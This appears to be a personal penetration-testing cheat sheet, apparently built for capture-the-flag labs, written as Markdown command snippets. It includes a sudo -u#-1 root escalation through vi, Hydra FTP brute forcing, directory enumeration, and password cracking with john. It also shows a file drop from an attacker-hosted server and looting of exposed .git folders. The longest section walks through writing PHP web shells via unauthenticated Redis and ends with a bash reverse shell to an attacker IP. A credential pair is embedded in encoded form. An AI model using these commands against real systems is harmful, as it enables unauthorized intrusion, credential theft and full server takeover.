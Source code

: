 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

# Brainfuck coding language
- An example:
````brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

## Equivalent to: 
User: eli
Password: DSpDiM1wAEwid
````
- Decoder/Encoder here: https://www.dcode.fr/brainfuck-language

# Hydra by ftp
````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

# Dirb basic command
````shell
dirb http://10.10.233.35/ /usr/share/wordlists/dirb/common.txt 
````

# Gobuster basic command
````shell
gobuster dir -u http://10.10.70.124/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 60
````

# Tac for print and read files
- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:
````shell
tac /home/file.txt
````

# Import a .asc key
- Once you get the key:
````shell
gpg --import key.asc

# If you don't have the creds, you can brute force it using gpg2john
gpg2john key.asc > hash.txt
# Then you crack it with john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Now you do the import step, introduce the creds and after that do the decrypt step
gpg --decrypt credential.pgp
````

# Python3 remote http server
- Initiate it: `python3 -m http.server 8080`
- The on the target machine:
````shell
wget http://<attack-ip>:8080/file
````

# Login without password to FTP
- User:  `anonymous`

# Investigate image metadata (Stego)
- Use command `file image.png`
- Use command `exiftool image.png`
- Use command `xxd image.png`
- Use command `strings image.png`
- Use tool binwalk to search binary images for embedded files and executable code: `binwalk image.png`
	- To extract the file: `binwalk -e image.png`
- Use command: `steghide extract -sf image.png`

# Crack zip files
- First get the hash: `zip2john file.zip > hash`
- Then use command: `john --wordlist=/path/to/wordlist hash`

# Extract from cli
- Use command: `7z e file.zip`

# How to deal with a /.git/?
- Download the full repository: `wget --mirror http://<ip-target>/.git/`
- Once downloaded follow this steps:
	- Look at the commits: `git log --oneline`
	- Go down the history: `git checkout <commit> --force`
	- Now inspect the commit

# How to deal with a Redis database?
- Download redis-tools: `sudo apt install redis-tools`
- Use the following command to gather info: `info`
- Introduce a php RCE: 

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redis.php
OK
10.10.60.159:6379> set test "<?php phpinfo(); ?>"
OK
10.10.60.159:6379> save
OK
````
- Now in Firefox, navigate to `<target-ip>/redis.php`
- If it is shown the phpinfo() file, the try to run this to get a shell:

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.60.159:6379> save
OK
````

- Now on the web-nav put something like this: `view-source:http://10.10.60.159/redisshell.php?cmd=%20cat%20/etc/passwd`
- Now set up a listener and create a simple reverse php shell:
````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/<attck-ip>/<port> 0>&1'\"); ?>"
OK
10.10.60.159:6379> save
OK
````